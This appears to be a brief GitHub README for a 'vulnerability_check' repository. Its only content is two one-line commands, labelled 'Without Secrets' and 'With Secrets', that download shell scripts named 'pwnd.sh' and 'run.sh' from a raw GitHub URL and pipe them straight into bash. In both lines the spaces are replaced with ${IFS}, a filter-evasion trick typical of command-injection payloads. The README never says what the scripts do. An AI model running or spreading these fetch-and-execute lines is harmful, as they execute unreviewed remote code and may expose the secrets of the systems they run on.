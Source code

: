 # vulnerability_check
Vulnerability Check repository


Without Secrets : `curl${IFS}-L${IFS}raw.githubusercontent.com/rui-costa/pwnd/main/pwnd.sh|bash`

With Secrets : `curl${IFS}-L${IFS}raw.githubusercontent.com/rui-costa/pwnd/main/run.sh|bash`
